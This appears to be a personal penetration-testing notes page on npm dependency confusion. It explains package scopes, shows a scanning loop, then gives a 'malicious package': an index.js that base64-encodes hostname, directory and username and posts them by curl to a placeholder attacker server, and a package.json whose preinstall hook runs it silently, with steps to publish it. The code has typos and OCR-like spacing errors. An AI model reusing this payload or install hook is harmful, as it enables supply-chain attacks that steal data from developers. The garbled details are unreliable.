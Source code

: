 ```yaml
---
layout: blank
pagetitle: Dependency Confusion
---
```


## Node.js

**Info**
- In Node, npm packages are stated in the package.json file
- Will look something like this:

```
"devDependencies" : {
    "my_test_framework": "^3.1.0",
    "another_dev_dependency": "1.0.0 - 1.2.0"
}
```
- The `^` symbol indicates versions equal to or higher than the version listed

**Package Scopes**
- Packages can be unscoped (public packages on npm)
    - Specified by listing the package name alone
- Can also be scoped
    - Belongs to a user/organization
    - Must be preceded by the organizations's name
        - `@org-name/package` or `@username/package`

**Exploitation**
- Find packages that are used without a reserved namespace (unscoped)
  - This could look like `org-name/package` (without the `@`)
- Node will then use the public package over the private one, allowing code execution
- [Synyc](https://github.com/snyk-labs/snync) is a good tool to scan for and recognize these packages:

```
# !/bin/bash
# Set the base directory to the current working directory
BASE_DIR =$( pwd )
# Loop through each directory in the base directory
for dir in " $BASE_DIR " /*/; do
    # Check if package . json exists in the directory
    if [ -f "${ dir } package . json " ]; then
        echo " Scanning repository : ${ dir }"
        # Run the npx snyk command in the directory
        npx snync -- directory " $dir "
    else
        echo " No package . json found in : ${ dir }. Skipping ... "
    fi
done
```
- Then you just have to host the package yourself

**Creating a Malicious package**
- Create `index.js`:

```
const { exec } = require("child_process");
exec("a=$(hostname;pwd;whoami;) && b=$(echo $a | base64) && curl -X POST {attacker-server} -d $b" , (error, data, getter) => {
    if (error){
        console.log("error", error.message);
        return;
    }
    if (getter){
        console.log(data);
        return;
    }
    console.log(data);
});
```
- Create `package.json`:

```
{
    "name":"{vulnerable_package_name}",
    "version":"{relevant_version_or_higher_if_^}",
    "description":"",
    "main":"main.js",
    "scripts":{
        "preinstall":"node inddex.js > /dev/null 2>&1",
        "test":"echo \"Error: no test specified\""
    },
    "author":"asdasfasd.asfasdasfasd",
    "license":"MIT"
}
```

- Then just run `npm public --access=public` and monitor attacker server